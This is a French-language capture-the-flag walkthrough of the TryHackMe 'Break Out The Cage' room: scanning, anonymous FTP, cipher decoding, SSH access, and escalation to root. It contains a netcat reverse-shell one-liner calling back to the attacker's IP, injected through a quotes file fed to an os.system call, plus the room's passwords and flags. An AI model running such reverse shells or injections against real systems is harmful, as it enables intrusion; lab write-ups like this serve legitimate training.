





# Break Out The Cage #

## Task 1 Investigate! ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.127.241 break.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A break.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-28 09:26 CEST
Nmap scan report for break.thm (10.10.127.241)
Host is up (0.070s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.228.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
|_  256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Nicholas Cage Stories
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/28%OT=21%CT=1%CU=37908%PV=Y%DS=2%DC=T%G=Y%TM=610106D
OS:B%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:04%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O
OS:3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=F4B3%W2=
OS:F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT      ADDRESS
1   40.77 ms 10.9.0.1
2   76.76 ms break.thm (10.10.127.241)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.83 seconds

```

Après avoir fait un scan sur la machine cible nous avons  plusieurs services.  
Le service FTP sur le port 21, se connect avec anonymous.  
Le service SSH sur le port 22.   
Le service Http  sur le port 80.     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp break.thm
Connected to break.thm.
220 (vsFTPd 3.0.3)
Name (break.thm:tim): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
226 Directory send OK.
ftp> get dad_tasks
local: dad_tasks remote: dad_tasks
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for dad_tasks (396 bytes).
226 Transfer complete.
396 bytes received in 0.11 secs (3.4960 kB/s)

```

On se connect sur le service Ftp avec le nom anonymous.
On récupère le fichier dad_task.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat dad_tasks 
UWFwdyBFZWtjbCAtIFB2ciBSTUtQLi4uWFpXIFZXVVIuLi4gVFRJIFhFRi4uLiBMQUEgWlJHUVJPISEhIQpTZncuIEtham5tYiB4c2kgb3d1b3dnZQpGYXouIFRtbCBma2ZyIHFnc2VpayBhZyBvcWVpYngKRWxqd3guIFhpbCBicWkgYWlrbGJ5d3FlClJzZnYuIFp3ZWwgdnZtIGltZWwgc3VtZWJ0IGxxd2RzZmsKWWVqci4gVHFlbmwgVnN3IHN2bnQgInVycXNqZXRwd2JuIGVpbnlqYW11IiB3Zi4KCkl6IGdsd3cgQSB5a2Z0ZWYuLi4uIFFqaHN2Ym91dW9leGNtdndrd3dhdGZsbHh1Z2hoYmJjbXlkaXp3bGtic2lkaXVzY3ds

tim@kali:~/Bureau/tryhackme/write-up$ echo "UWFwdyBFZWtjbCAtIFB2ciBSTUtQLi4uWFpXIFZXVVIuLi4gVFRJIFhFRi4uLiBMQUEgWlJHUVJPISEhIQpTZncuIEtham5tYiB4c2kgb3d1b3dnZQpGYXouIFRtbCBma2ZyIHFnc2VpayBhZyBvcWVpYngKRWxqd3guIFhpbCBicWkgYWlrbGJ5d3FlClJzZnYuIFp3ZWwgdnZtIGltZWwgc3VtZWJ0IGxxd2RzZmsKWWVqci4gVHFlbmwgVnN3IHN2bnQgInVycXNqZXRwd2JuIGVpbnlqYW11IiB3Zi4KCkl6IGdsd3cgQSB5a2Z0ZWYuLi4uIFFqaHN2Ym91dW9leGNtdndrd3dhdGZsbHh1Z2hoYmJjbXlkaXp3bGtic2lkaXVzY3ds" | base64 -d
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl
```

La chaîne est codée  en base64, puis en vigenère mais je n'ai pas la clef.   




Sur le site Web nous avons une page avec pas grand chose.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://break.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://break.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/28 09:49:04 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 307] [--> http://break.thm/images/]
/html                 (Status: 301) [Size: 305] [--> http://break.thm/html/]  
/scripts              (Status: 301) [Size: 308] [--> http://break.thm/scripts/]
/contracts            (Status: 301) [Size: 310] [--> http://break.thm/contracts/]
/auditions            (Status: 301) [Size: 310] [--> http://break.thm/auditions/]
/server-status        (Status: 403) [Size: 274]                                  
                                                                                 
===============================================================
2021/07/28 10:02:27 Finished
===============================================================

```

Avec gobuster on remarque plusieurs liens : 
Dans images il y a des images.  
Dans html il y a rien.  
Dans scripts il y des scripts de film.  
Dans contracts il y un lien.  
Dans auditions il y un fichier en mp3.  



```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://break.thm/auditions/must_practice_corrupt_file.mp3
--2021-07-28 10:16:10--  http://break.thm/auditions/must_practice_corrupt_file.mp3
Résolution de break.thm (break.thm)… 10.10.127.241
Connexion à break.thm (break.thm)|10.10.127.241|:80… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 1109983 (1,1M) [audio/mpeg]
Sauvegarde en : « must_practice_corrupt_file.mp3 »

must_practice_corrupt_file.mp3                              100%[=========================================================================================================================================>]   1,06M  2,82MB/s    ds 0,4s    

2021-07-28 10:16:11 (2,82 MB/s) — « must_practice_corrupt_file.mp3 » sauvegardé [1109983/1109983]

```



On récupère le fichier mp3, puis on l'ouvre avec un logiciel d'édition de son.  
Il suffit de mettre l'affichage en mode spectrogramme et ca fonctionne.  
On a un mot de passe : namelesstwo 



**What is Weston's password?**

On décode le message avec la bonne clef.   
On trouve un mot de passe : Mydadisghostrideraintthatcoolnocausehesonfirejokes  

Réponse : Mydadisghostrideraintthatcoolnocausehesonfirejokes 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh weston@break.thm
The authenticity of host 'break.thm (10.10.127.241)' can't be established.
ECDSA key fingerprint is SHA256:5SfBwCWS7eOa++Pxtlamyng8cPcCWV3yaRPL2zXFcYg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'break.thm,10.10.127.241' (ECDSA) to the list of known hosts.
weston@break.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jul 28 08:38:26 UTC 2021

  System load:  0.0                Processes:           90
  Usage of /:   20.4% of 19.56GB   Users logged in:     0
  Memory usage: 36%                IP address for eth0: 10.10.127.241
  Swap usage:   0%


39 packages can be updated.
0 updates are security updates.


         __________
        /\____;;___\
       | /         /
       `. ())oo() .
        |\(%()*^^()^\
       %| |-%-------|
      % \ | %  ))   |
      %  \|%________|
       %%%%
Last login: Tue May 26 10:58:20 2020 from 192.168.247.1

weston@national-treasure:~$ sudo -l
[sudo] password for weston: 
Matching Defaults entries for weston on national-treasure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User weston may run the following commands on national-treasure:
    (root) /usr/bin/bees
```

On remarque que l'on peut exécuter bees avec sudo.  

```bash
eston@national-treasure:~$ file /usr/bin/bees
/usr/bin/bees: Bourne-Again shell script, ASCII text executable
weston@national-treasure:~$ ls -al /usr/bin/bees 
-rwxr-xr-x 1 root root 56 May 25  2020 /usr/bin/bees
```

Il y a pas possibilité de modifier le fichier.   

On remarque que de temps en temps il y a un message qui s'exécute.  

```bash
weston@national-treasure:~$ id
uid=1001(weston) gid=1001(weston) groups=1001(weston),1000(cage)
```

On remarque l'on fait partie du groupe cage.  

```bash
weston@national-treasure:~$ find / -type f -group cage 2>/dev/null
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
```

On fait une recherche sur les fichiers qui appartient au groupe cage.  

```bash
weston@national-treasure:~$ ls -al /opt/.dads_scripts/spread_the_quotes.py 
-rwxr--r-- 1 cage cage 255 May 26  2020 /opt/.dads_scripts/spread_the_quotes.py
weston@national-treasure:~$ cat /opt/.dads_scripts/spread_the_quotes.py 
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

On voit que l'on a pas de droit écriture pour modifier le script.  
Il exécute le programme wall en ligne de commande avec les droits cage.  

```bash
weston@national-treasure:~$ ls -al /opt/.dads_scripts/.files/.quotes 
-rwxrw---- 1 cage cage 4204 May 25  2020 /opt/.dads_scripts/.files/.quotes

weston@national-treasure:~$ echo "pwned;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.228.66 1234 >/tmp/f" > /opt/.dads_scripts/.files/.quotes 

tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.127.241] 53530
/bin/sh: 0: can't access tty; job control turned off
$ 
```

On remarque que l'on peut écrire dans le fichier .quotes.   
On fait un reverse shell.   
Et on attend quelques minutes.  

**What's the user flag?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.127.241] 53530
/bin/sh: 0: can't access tty; job control turned off
$ ls
email_backup
Super_Duper_Checklist
$ cat Super_Duper_Checklist
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}
```

On regarde dans le fichier Super_Duper_Checklist est on a notre flag.  
Réponse : THM{M37AL_0R_P3N_T35T1NG}  

**What's the root flag?**

```bash
$ cd email_backup
$ ls
email_1
email_2
email_3
$ cat email_1
From - SeanArcher@BigManAgents.com
To - Cage@nationaltreasure.com

Hey Cage!

There's rumours of a Face/Off sequel, Face/Off 2 - Face On. It's supposedly only in the
planning stages at the moment. I've put a good word in for you, if you're lucky we 
might be able to get you a part of an angry shop keeping or something? Would you be up
for that, the money would be good and it'd look good on your acting CV.

Regards

Sean Archer
$ cat email_2
From - Cage@nationaltreasure.com
To - SeanArcher@BigManAgents.com

Dear Sean

We've had this discussion before Sean, I want bigger roles, I'm meant for greater things.
Why aren't you finding roles like Batman, The Little Mermaid(I'd make a great Sebastian!),
the new Home Alone film and why oh why Sean, tell me why Sean. Why did I not get a role in the
new fan made Star Wars films?! There was 3 of them! 3 Sean! I mean yes they were terrible films.
I could of made them great... great Sean.... I think you're missing my true potential.

On a much lighter note thank you for helping me set up my home server, Weston helped too, but
not overally greatly. I gave him some smaller jobs. Whats your username on here? Root?

Yours

Cage
$ cat email_3
From - Cage@nationaltreasure.com
To - Weston@nationaltreasure.com

Hey Son

Buddy, Sean left a note on his desk with some really strange writing on it. I quickly wrote
down what it said. Could you look into it please? I think it could be something to do with his
account on here. I want to know what he's hiding from me... I might need a new agent. Pretty
sure he's out to get me. The note said:

haiinspsyanileph

The guy also seems obsessed with my face lately. He came him wearing a mask of my face...
was rather odd. Imagine wearing his ugly face.... I wouldnt be able to FACE that!! 
hahahahahahahahahahahahahahahaahah get it Weston! FACE THAT!!!! hahahahahahahhaha
ahahahhahaha. Ahhh Face it... he's just odd. 

Regards

The Legend - Cage
```

On remarque dans le mail 3 un note qui semble chiffrée : haiinspsyanileph 
Le mot FACE revient plusieurs fois en majuscule.  



On le déchiffre avec le mot de passe : FACE   
On trouve le mot de passe qui est : cageisnotalegend 

```bash
$ python -c "import pty;pty.spawn('/bin/bash')"
cage@national-treasure:~/email_backup$ su root

su root
Password: cageisnotalegend

root@national-treasure:~# cd /root
cd /root
root@national-treasure:~# ls
ls
email_backup
root@national-treasure:~# cd email_backup
cd email_backup
root@national-treasure:~/email_backup# ls
ls
email_1  email_2
root@national-treasure:~/email_backup# cat email_1
cat email_1
From - SeanArcher@BigManAgents.com
To - master@ActorsGuild.com

Good Evening Master

My control over Cage is becoming stronger, I've been casting him into worse and worse roles.
Eventually the whole world will see who Cage really is! Our masterplan is coming together
master, I'm in your debt.

Thank you

Sean Archer
root@national-treasure:~/email_backup# cat email_2
cat email_2
From - master@ActorsGuild.com
To - SeanArcher@BigManAgents.com

Dear Sean

I'm very pleased to here that Sean, you are a good disciple. Your power over him has become
strong... so strong that I feel the power to promote you from disciple to crony. I hope you
don't abuse your new found strength. To ascend yourself to this level please use this code:

THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}

Thank you

Sean Archer
```

Regardant dans les derniers emails on trouve le dernier flag.   
Le flag est : THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}
